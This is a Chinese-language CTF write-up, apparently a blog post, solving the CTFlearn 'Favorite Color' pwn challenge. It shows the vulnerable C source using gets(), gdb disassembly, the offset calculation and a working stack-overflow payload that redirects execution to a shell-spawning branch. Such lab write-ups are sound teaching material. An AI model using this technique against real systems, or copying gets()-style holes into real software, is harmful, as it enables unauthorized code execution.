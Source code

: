 ```yaml
---
layout: post
title: Favorite Color
categories: writeups
tags: pwn
ctfsite: ctflearn.com
challenge_url: https://ctflearn.com/problems/391
challenge_url_comment: 需要注册登录
---
```


这是一道简单的溢出题。使用题目给出的地址端口和用户名密码，登录到远程服务器中。查看一下目录内容：

![dir]({% asset dir.png %})

`flag.txt` 就在当前目录，但是没有权限读。目录里还提供了源码和 `Makefile`，以及可执行文件 `color`。看来目的就是通过 `color` 的漏洞来读取 `flag.txt` 了。

{% include writeup_begin.html %}

打开看一下 `color.c`：

```{  .c .numberLines }
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int vuln() {
    char buf[32];

    printf("Enter your favorite color: ");
    gets(buf);

    int good = 0;
    for (int i = 0; buf[i]; i++) {
        good &= buf[i] ^ buf[i];
    }

    return good;
}

int main(char argc, char** argv) {
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());

    //disable buffering.
    setbuf(stdout, NULL);

    if (vuln()) {
        puts("Me too! That's my favorite color too!");
        puts("You get a shell! Flag is in flag.txt");
        system("/bin/sh");
    } else {
        puts("Boo... I hate that color! :(");
    }
}
```

这是一个典型的缓冲区溢出问题。正常情况下，`vuln` 将始终返回 0，导致 `main` 函数始终都执行 `else` 分支。我们的目标是能够执行 `if` 分支。

再看一下 `Makefile`:

```{ .makefile .numberLines }
        # 省略部分内容 ...
$(prob).o: $(prob).c
        cc -c -m32 -fno-stack-protector $(prob).c
```

使用 `-fno-stack-protector` 关闭了栈溢出保护。因此我们可以直接通过覆盖返回地址进行爆破。使用 gdb 反汇编一下 `vuln` 函数：

```{ .asm .numberLines }
   0x0804858b <+0>:     push   %ebp
   0x0804858c <+1>:     mov    %esp,%ebp
   0x0804858e <+3>:     sub    $0x38,%esp
   0x08048591 <+6>:     sub    $0xc,%esp
   0x08048594 <+9>:     push   $0x8048730
   0x08048599 <+14>:    call   0x8048410 <printf@plt>
   0x0804859e <+19>:    add    $0x10,%esp
   0x080485a1 <+22>:    sub    $0xc,%esp
   0x080485a4 <+25>:    lea    -0x30(%ebp),%eax
   0x080485a7 <+28>:    push   %eax
   0x080485a8 <+29>:    call   0x8048420 <gets@plt>
   0x080485ad <+34>:    add    $0x10,%esp
   0x080485b0 <+37>:    movl   $0x0,-0xc(%ebp)
   0x080485b7 <+44>:    movl   $0x0,-0x10(%ebp)
   0x080485be <+51>:    jmp    0x80485cb <vuln+64>
   0x080485c0 <+53>:    movl   $0x0,-0xc(%ebp)
   0x080485c7 <+60>:    addl   $0x1,-0x10(%ebp)
   0x080485cb <+64>:    lea    -0x30(%ebp),%edx
   0x080485ce <+67>:    mov    -0x10(%ebp),%eax
   0x080485d1 <+70>:    add    %edx,%eax
   0x080485d3 <+72>:    movzbl (%eax),%eax
   0x080485d6 <+75>:    test   %al,%al
   0x080485d8 <+77>:    jne    0x80485c0 <vuln+53>
   0x080485da <+79>:    mov    -0xc(%ebp),%eax
   0x080485dd <+82>:    leave
   0x080485de <+83>:    ret
```

第 9 行可以看到，缓冲区大小为 0x30 即 48 个字节（虽然代码中的数组大小为 32 个字节）。所以我们需要 48 个字节把缓冲区填满，再加 4 个字节覆盖 `ebp`，再 4 个字节覆盖返回地址。返回地址就填进 `if` 分支的开始处，用 gdb 查看一下 `main`：

```{ .asm .numberLines }
                        ......
   0x0804864e <+111>:   call   0x804858b <vuln>
   0x08048653 <+116>:   test   %eax,%eax
   0x08048655 <+118>:   je     0x8048689 <main+170>
   0x08048657 <+120>:   sub    $0xc,%esp
   0x0804865a <+123>:   push   $0x804874c
   0x0804865f <+128>:   call   0x8048440 <puts@plt>
   0x08048664 <+133>:   add    $0x10,%esp
   0x08048667 <+136>:   sub    $0xc,%esp
   0x0804866a <+139>:   push   $0x8048774
   0x0804866f <+144>:   call   0x8048440 <puts@plt>
   0x08048674 <+149>:   add    $0x10,%esp
   0x08048677 <+152>:   sub    $0xc,%esp
   0x0804867a <+155>:   push   $0x8048799
   0x0804867f <+160>:   call   0x8048450 <system@plt>
   0x08048684 <+165>:   add    $0x10,%esp
                        ......
```

`0x08048657` 就是我们希望的返回地址。因此构造 payload 并传入 `color` 程序:

```bash
(python -c "print '1234567890123456789012345678901234567890123456780000\x57\x86\x04\x08'";cat) | ./color
```

至此我们就得到了 shell：

![shell]({% asset shell.jpg %})

`cat` 一下，就可以得到 flag 了。

{% related_note stack-buffer-overflow-101 %}

{% include writeup_end.html %}
